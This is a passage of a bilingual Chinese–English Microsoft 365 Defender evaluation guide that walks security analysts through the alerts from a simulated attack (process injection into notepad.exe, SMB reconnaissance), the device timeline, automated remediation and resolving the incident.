   <span data-ttu-id="5cde8-222">您还可以从右侧 **菜单中** 单击"管理事件"，以标记事件、将其分配给自己并添加注释。</span><span class="sxs-lookup"><span data-stu-id="5cde8-222">You can also click **Manage incident** from the right-hand menu, to tag the incident, assign it to yourself, and add comments.</span></span>

#### <a name="review-generated-alerts"></a><span data-ttu-id="5cde8-223">查看生成的警报</span><span class="sxs-lookup"><span data-stu-id="5cde8-223">Review generated alerts</span></span>

<span data-ttu-id="5cde8-224">让我们看一下模拟攻击期间生成的一些警报。</span><span class="sxs-lookup"><span data-stu-id="5cde8-224">Let's look at some of the alerts generated during the simulated attack.</span></span>

> [!NOTE]
> <span data-ttu-id="5cde8-225">我们将仅演练模拟攻击期间生成的一些警报。</span><span class="sxs-lookup"><span data-stu-id="5cde8-225">We'll walk through only a few of the alerts generated during the simulated attack.</span></span> <span data-ttu-id="5cde8-226">根据测试设备上Windows的 Microsoft 365 Defender 版本，你可能会看到按略有不同的顺序显示更多警报。</span><span class="sxs-lookup"><span data-stu-id="5cde8-226">Depending on the version of Windows and the Microsoft 365 Defender products running on your test device, you might see more alerts that appear in a slightly different order.</span></span>


##### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint"></a><span data-ttu-id="5cde8-228">警报：在源中观察到的可疑 (：Microsoft Defender for Endpoint) </span><span class="sxs-lookup"><span data-stu-id="5cde8-228">Alert: Suspicious process injection observed (Source: Microsoft Defender for Endpoint)</span></span>

<span data-ttu-id="5cde8-229">高级攻击者使用复杂而复杂的方法来保留内存，并隐藏在检测工具中。</span><span class="sxs-lookup"><span data-stu-id="5cde8-229">Advanced attackers use sophisticated and stealthy methods to persist in memory and hide from detection tools.</span></span> <span data-ttu-id="5cde8-230">一种常见技术是在受信任的系统进程（而不是恶意可执行文件）内进行操作，使得检测工具和安全操作难以发现恶意代码。</span><span class="sxs-lookup"><span data-stu-id="5cde8-230">One common technique is to operate from within a trusted system process rather than a malicious executable, making it hard for detection tools and security operations to spot the malicious code.</span></span>

<span data-ttu-id="5cde8-231">为了允许 SOC 分析师捕获这些高级攻击，Microsoft Defender for Endpoint 中的深度内存传感器为云服务提供了对各种跨进程代码注入技术的前所未有的可见性。</span><span class="sxs-lookup"><span data-stu-id="5cde8-231">To allow the SOC analysts to catch these advanced attacks, deep memory sensors in Microsoft Defender for Endpoint provide our cloud service with unprecedented visibility into a variety of cross-process code injection techniques.</span></span> <span data-ttu-id="5cde8-232">下图显示了在尝试向终结点注入代码时如何检测到 Defender for Endpoint 并<i>notepad.exe。 </i></span><span class="sxs-lookup"><span data-stu-id="5cde8-232">The following figure shows how Defender for Endpoint detected and alerted on the attempt to inject code to <i>notepad.exe</i>.</span></span>


##### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint"></a><span data-ttu-id="5cde8-234">警报：在源：Microsoft Defender for Endpoint (没有命令行参数的进程运行时观察到的意外) </span><span class="sxs-lookup"><span data-stu-id="5cde8-234">Alert: Unexpected behavior observed by a process run with no command-line arguments (Source: Microsoft Defender for Endpoint)</span></span>

<span data-ttu-id="5cde8-235">Microsoft Defender 终结点检测通常针对攻击技术最常见的属性。</span><span class="sxs-lookup"><span data-stu-id="5cde8-235">Microsoft Defender for Endpoint detections often target the most common attribute of an attack technique.</span></span> <span data-ttu-id="5cde8-236">此方法可确保持续性，并提升攻击者切换到较新策略的漏洞。</span><span class="sxs-lookup"><span data-stu-id="5cde8-236">This method ensures durability and raises the bar for attackers to switch to newer tactics.</span></span>

<span data-ttu-id="5cde8-237">我们采用大规模学习算法来建立组织和全球通用流程的正常行为，并观察这些流程何时显示异常行为。</span><span class="sxs-lookup"><span data-stu-id="5cde8-237">We employ large-scale learning algorithms to establish the normal behavior of common processes within an organization and worldwide and watch for when these processes show anomalous behaviors.</span></span> <span data-ttu-id="5cde8-238">这些异常行为通常指示已引入多余的代码，并且正在其他受信任进程中运行。</span><span class="sxs-lookup"><span data-stu-id="5cde8-238">These anomalous behaviors often indicate that extraneous code was introduced and is running in an otherwise trusted process.</span></span>

<span data-ttu-id="5cde8-239">对于此方案 <i> ，notepad.exe</i> 出现异常行为，包括与外部位置的通信。</span><span class="sxs-lookup"><span data-stu-id="5cde8-239">For this scenario, the process <i>notepad.exe</i> is exhibiting abnormal behavior, involving communication with an external location.</span></span> <span data-ttu-id="5cde8-240">此结果独立于用于引入和执行恶意代码的特定方法。</span><span class="sxs-lookup"><span data-stu-id="5cde8-240">This outcome is independent of the specific method used to introduce and execute the malicious code.</span></span>

> [!NOTE]
> <span data-ttu-id="5cde8-241">由于此警报基于需要额外后端处理的机器学习模型，因此在门户中看到此警报可能需要一些时间。</span><span class="sxs-lookup"><span data-stu-id="5cde8-241">Because this alert is based on machine-learning models that require additional backend processing, it might take some time before you see this alert in the portal.</span></span>

<span data-ttu-id="5cde8-242">请注意，警报详细信息包括外部 IP 地址，该地址是一个可用于扩展调查的指示器。</span><span class="sxs-lookup"><span data-stu-id="5cde8-242">Notice that the alert details include the external IP address—an indicator that you can use as a pivot to expand investigation.</span></span>

<span data-ttu-id="5cde8-243">选择警报进程树中的 IP 地址以查看 IP 地址详细信息页面。</span><span class="sxs-lookup"><span data-stu-id="5cde8-243">Select the IP address in the alert process tree to view the IP address details page.</span></span>


<span data-ttu-id="5cde8-245">下图显示了选中的 IP 地址详细信息页面 (警报进程树中的 IP 地址) 。</span><span class="sxs-lookup"><span data-stu-id="5cde8-245">The following figure displays the selected IP Address details page (clicking on IP address in the Alert process tree).</span></span>


##### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a><span data-ttu-id="5cde8-247">警报：SMB 用户和 IP 地址重新 (源)  (：Microsoft Defender for Identity) </span><span class="sxs-lookup"><span data-stu-id="5cde8-247">Alert: User and IP address reconnaissance (SMB) (Source: Microsoft Defender for Identity)</span></span>

<span data-ttu-id="5cde8-248">使用服务器消息块 (SMB) 协议的枚举使攻击者能够获取最近的用户登录信息，这些信息可帮助他们稍后通过网络移动来访问特定的敏感帐户。</span><span class="sxs-lookup"><span data-stu-id="5cde8-248">Enumeration using Server Message Block (SMB) protocol enables attackers to get recent user logon information that helps them move laterally through the network to access a specific sensitive account.</span></span>

<span data-ttu-id="5cde8-249">在此检测中，当 SMB 会话枚举针对域控制器运行时，将触发警报。</span><span class="sxs-lookup"><span data-stu-id="5cde8-249">In this detection, an alert is triggered when the SMB session enumeration runs against a domain controller.</span></span>


#### <a name="review-the-device-timeline-with-microsoft-defender-for-endpoint"></a><span data-ttu-id="5cde8-251">使用 Microsoft Defender for Endpoint 查看设备时间线</span><span class="sxs-lookup"><span data-stu-id="5cde8-251">Review the device timeline with Microsoft Defender for Endpoint</span></span>

<span data-ttu-id="5cde8-252">在浏览此事件中的各个警报后，导航回之前调查的事件页面。</span><span class="sxs-lookup"><span data-stu-id="5cde8-252">After exploring the various alerts in this incident, navigate back to the incident page you investigated earlier.</span></span> <span data-ttu-id="5cde8-253">选择 **事件页面中** 的"设备"选项卡，查看 Microsoft Defender for Endpoint 和 Microsoft Defender for Identity 报告的事件所涉及的设备。</span><span class="sxs-lookup"><span data-stu-id="5cde8-253">Select the **Devices** tab in the incident page to review the devices involved in this incident as reported by Microsoft Defender for Endpoint and Microsoft Defender for Identity.</span></span>

<span data-ttu-id="5cde8-254">选择执行攻击的设备的名称，以打开该特定设备的实体页面。</span><span class="sxs-lookup"><span data-stu-id="5cde8-254">Select the name of the device where the attack was conducted, to open the entity page for that specific device.</span></span> <span data-ttu-id="5cde8-255">在此页面中，你可以看到触发的警报和相关事件。</span><span class="sxs-lookup"><span data-stu-id="5cde8-255">In that page, you can see alerts that were triggered and related events.</span></span>

<span data-ttu-id="5cde8-256">选择 **"时间线** "选项卡以打开设备时间线，并按时间顺序查看在设备上观测到的所有事件和行为，这些事件和行为与所引发警报的交错。</span><span class="sxs-lookup"><span data-stu-id="5cde8-256">Select the **Timeline** tab to open the device timeline and view all events and behaviors observed on the device in chronological order, interspersed with the alerts raised.</span></span>


<span data-ttu-id="5cde8-258">展开一些更有趣的行为可提供有用的详细信息，例如进程树。</span><span class="sxs-lookup"><span data-stu-id="5cde8-258">Expanding some of the more interesting behaviors provides useful details, such as process trees.</span></span>

<span data-ttu-id="5cde8-259">例如，向下滚动，直到找到警报事件"可疑 **进程注入已观测到"。**</span><span class="sxs-lookup"><span data-stu-id="5cde8-259">For example, scroll down until you find the alert event **Suspicious process injection observed**.</span></span> <span data-ttu-id="5cde8-260">选择 **powershell.exe** 以notepad.exe进程事件，以在侧窗格的"事件实体"图下显示此行为的完整进程树。 </span><span class="sxs-lookup"><span data-stu-id="5cde8-260">Select the **powershell.exe injected to notepad.exe process** event below it, to display the full process tree for this behavior under the **Event entities** graph on the side pane.</span></span> <span data-ttu-id="5cde8-261">如有必要，使用搜索栏进行筛选。</span><span class="sxs-lookup"><span data-stu-id="5cde8-261">Use the search bar for filtering if necessary.</span></span>


#### <a name="review-the-user-information-with-microsoft-cloud-app-security"></a><span data-ttu-id="5cde8-263">使用用户信息查看Microsoft Cloud App Security</span><span class="sxs-lookup"><span data-stu-id="5cde8-263">Review the user information with Microsoft Cloud App Security</span></span>

<span data-ttu-id="5cde8-264">在事件页面上，选择" **用户** "选项卡以显示攻击所涉及的用户列表。</span><span class="sxs-lookup"><span data-stu-id="5cde8-264">On the incident page, select the **Users** tab to display the list of users involved in the attack.</span></span> <span data-ttu-id="5cde8-265">该表包含有关每个用户的其他信息，包括每个用户的调查 **优先级** 分数。</span><span class="sxs-lookup"><span data-stu-id="5cde8-265">The table contains additional information about each user, including each user's **Investigation Priority** score.</span></span>

<span data-ttu-id="5cde8-266">选择用户名以打开用户配置文件页，可在其中执行进一步调查。</span><span class="sxs-lookup"><span data-stu-id="5cde8-266">Select the user name to open the user's profile page where further investigation can be conducted.</span></span> <span data-ttu-id="5cde8-267">[阅读更多有关调查有风险的用户。](/cloud-app-security/tutorial-ueba#identify)</span><span class="sxs-lookup"><span data-stu-id="5cde8-267">[Read more about investigating risky users](/cloud-app-security/tutorial-ueba#identify).</span></span>


#### <a name="automated-investigation-and-remediation"></a><span data-ttu-id="5cde8-269">自动调查和修复</span><span class="sxs-lookup"><span data-stu-id="5cde8-269">Automated investigation and remediation</span></span>

> [!NOTE]
><span data-ttu-id="5cde8-270">在我们演示此模拟之前，请观看以下视频，以熟悉什么是自动自我修复、在门户中在哪里找到它，以及它在安全操作中如何提供帮助：</span><span class="sxs-lookup"><span data-stu-id="5cde8-270">Before we walk you through this simulation, watch the following video to get familiar with what automated self-healing is, where to find it in the portal, and how it can help in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

<span data-ttu-id="5cde8-271">在事件门户中导航回Microsoft 365 Defender事件。</span><span class="sxs-lookup"><span data-stu-id="5cde8-271">Navigate back to the incident in the Microsoft 365 Defender portal.</span></span> <span data-ttu-id="5cde8-272">" **事件"** 页中的"调查 **"选项卡显示** 由 Microsoft Defender for Identity 和 Microsoft Defender for Endpoint 触发的自动调查。</span><span class="sxs-lookup"><span data-stu-id="5cde8-272">The **Investigations** tab in the **Incident** page shows the automated investigations that were triggered by Microsoft Defender for Identity and Microsoft Defender for Endpoint.</span></span> <span data-ttu-id="5cde8-273">以下屏幕截图仅显示 Defender for Endpoint 触发的自动调查。</span><span class="sxs-lookup"><span data-stu-id="5cde8-273">The screenshot below displays only the automated investigation triggered by Defender for Endpoint.</span></span> <span data-ttu-id="5cde8-274">默认情况下，Defender for Endpoint 会自动修正队列中找到的项目，这需要进行修正。</span><span class="sxs-lookup"><span data-stu-id="5cde8-274">By default, Defender for Endpoint automatically remediates the artifacts found in the queue, which requires remediation.</span></span>


<span data-ttu-id="5cde8-276">选择触发调查的警报以打开" **调查详细信息"** 页。</span><span class="sxs-lookup"><span data-stu-id="5cde8-276">Select the alert that triggered an investigation to open the **Investigation details** page.</span></span> <span data-ttu-id="5cde8-277">你将看到以下详细信息：</span><span class="sxs-lookup"><span data-stu-id="5cde8-277">You'll see the following details:</span></span>

- <span data-ttu-id="5cde8-278">警报 (自动) 调查的警报。</span><span class="sxs-lookup"><span data-stu-id="5cde8-278">Alert(s) that triggered the automated investigation.</span></span>
- <span data-ttu-id="5cde8-279">影响的用户和设备。</span><span class="sxs-lookup"><span data-stu-id="5cde8-279">Impacted users and devices.</span></span> <span data-ttu-id="5cde8-280">如果在其他设备上找到指示器，这些附加设备也将列出。</span><span class="sxs-lookup"><span data-stu-id="5cde8-280">If indicators are found on additional devices, these additional devices will be listed as well.</span></span>
- <span data-ttu-id="5cde8-281">证据列表。</span><span class="sxs-lookup"><span data-stu-id="5cde8-281">List of evidence.</span></span> <span data-ttu-id="5cde8-282">找到并分析的实体，如文件、进程、服务、驱动程序和网络地址。</span><span class="sxs-lookup"><span data-stu-id="5cde8-282">The entities found and analyzed, such as files, processes, services, drivers, and network addresses.</span></span> <span data-ttu-id="5cde8-283">将分析这些实体与警报的可能关系，并评分为恶意或恶意。</span><span class="sxs-lookup"><span data-stu-id="5cde8-283">These entities are analyzed for possible relationships to the alert and rated as benign or malicious.</span></span>
- <span data-ttu-id="5cde8-284">找到的威胁。</span><span class="sxs-lookup"><span data-stu-id="5cde8-284">Threats found.</span></span> <span data-ttu-id="5cde8-285">在调查过程中发现的已知威胁。</span><span class="sxs-lookup"><span data-stu-id="5cde8-285">Known threats that are found during the investigation.</span></span>

> [!NOTE]
> <span data-ttu-id="5cde8-286">根据时间，自动调查可能仍在运行。</span><span class="sxs-lookup"><span data-stu-id="5cde8-286">Depending on timing, the automated investigation might still be running.</span></span> <span data-ttu-id="5cde8-287">请等待几分钟，等待该过程完成，然后收集并分析证据并查看结果。</span><span class="sxs-lookup"><span data-stu-id="5cde8-287">Wait a few minutes for the process to complete before you collect and analyze the evidence and review the results.</span></span> <span data-ttu-id="5cde8-288">刷新 **"调查详细信息** "页，获取最新结果。</span><span class="sxs-lookup"><span data-stu-id="5cde8-288">Refresh the **Investigation details** page to get the latest findings.</span></span>


<span data-ttu-id="5cde8-290">在自动调查期间，Microsoft Defender for Endpoint 确定了notepad.exe，该流程作为需要修正的项目之一注入。</span><span class="sxs-lookup"><span data-stu-id="5cde8-290">During the automated investigation, Microsoft Defender for Endpoint identified the notepad.exe process, which was injected as one of the artifacts requiring remediation.</span></span> <span data-ttu-id="5cde8-291">作为自动修正的一部分，Defender for Endpoint 会自动停止可疑进程注入。</span><span class="sxs-lookup"><span data-stu-id="5cde8-291">Defender for Endpoint automatically stops the suspicious process injection as part of the automated remediation.</span></span>

<span data-ttu-id="5cde8-292">你可以看到 <i>notepad.exe在 </i> 测试设备上正在运行的进程列表中消失。</span><span class="sxs-lookup"><span data-stu-id="5cde8-292">You can see <i>notepad.exe</i> disappear from the list of running processes on the test device.</span></span>

#### <a name="resolve-the-incident"></a><span data-ttu-id="5cde8-293">解决事件</span><span class="sxs-lookup"><span data-stu-id="5cde8-293">Resolve the incident</span></span>

<span data-ttu-id="5cde8-294">完成调查并确认要修正后，解决事件。</span><span class="sxs-lookup"><span data-stu-id="5cde8-294">After the investigation is complete and confirmed to be remediated, you resolve the incident.</span></span>

<span data-ttu-id="5cde8-295">从"**事件"** 页面，选择"**管理事件"。**</span><span class="sxs-lookup"><span data-stu-id="5cde8-295">From the **Incident** page, select **Manage incident**.</span></span> <span data-ttu-id="5cde8-296">将状态设置为 **"解决事件** "，为分类 **选择"真** 警报"，然后选择" **安全测试** "进行确定。</span><span class="sxs-lookup"><span data-stu-id="5cde8-296">Set the status to **Resolve incident** and select **True alert** for the classification and **Security testing** for the determination.</span></span>


<span data-ttu-id="5cde8-298">当事件解决时，它将解决所有关联警报，Microsoft 365 Defender门户和相关门户中。</span><span class="sxs-lookup"><span data-stu-id="5cde8-298">When the incident is resolved, it resolves all of the associated alerts in Microsoft 365 Defender portal and in the related portals.</span></span>

<span data-ttu-id="5cde8-299">这将封装攻击模拟，用于事件分析、自动调查和事件解决。</span><span class="sxs-lookup"><span data-stu-id="5cde8-299">This wraps up the attack simulation for incident analysis, automated investigation, and incident resolution.</span></span>

## <a name="next-step"></a><span data-ttu-id="5cde8-300">下一步</span><span class="sxs-lookup"><span data-stu-id="5cde8-300">Next step</span></span>

<span data-ttu-id="5cde8-301">[](eval-defender-investigate-respond-additional.md)</span><span class="sxs-lookup"><span data-stu-id="5cde8-301">[](eval-defender-investigate-respond-additional.md)</span></span>

<span data-ttu-id="5cde8-302">步骤 2/2：Microsoft 365 Defender[事件响应功能](eval-defender-investigate-respond-additional.md)</span><span class="sxs-lookup"><span data-stu-id="5cde8-302">Step 2 of 2: [Try Microsoft 365 Defender incident response capabilities](eval-defender-investigate-respond-additional.md)</span></span>

### <a name="navigation-you-may-need"></a><span data-ttu-id="5cde8-303">可能需要的导航</span><span class="sxs-lookup"><span data-stu-id="5cde8-303">Navigation you may need</span></span>

[<span data-ttu-id="5cde8-304">创建Microsoft 365 Defender评估环境</span><span class="sxs-lookup"><span data-stu-id="5cde8-304">Create the Microsoft 365 Defender Evaluation Environment</span></span>](eval-create-eval-environment.md)
